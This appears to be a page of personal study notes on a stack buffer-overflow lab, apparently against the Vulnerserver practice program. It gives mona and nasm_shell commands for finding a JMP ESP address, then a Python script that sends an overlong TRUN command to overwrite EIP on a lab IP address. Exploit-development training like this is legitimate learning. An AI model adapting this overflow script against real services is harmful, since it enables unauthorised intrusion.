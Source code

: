 ```yaml
---
category: Uncategorized
tags: []
---
```

6-Finding the Right Module

~~~bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
~~~

Search NASM for “JMP ESP” (minus the quotes). (\xff\xe4)

~~~cmd
!mona modules
~~~

~~~cmd
!mona find -s "\xff\xe4" -m module.ext
~~~

~~~python
#!/usr/bin/python
import sys, socket

#EIP->JMP ESP = "625011AF" -- Must be inserted backwards for "little indian"

eipown = "A" * 2003 + "\xaf\x11\x50\x62"

try:
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("192.168.253.129",9999))
	s.send(('TRUN /.:/' + eipown))
	s.close()

except:
	print "Error Connecting to Server..."
	sys.exit()

~~~

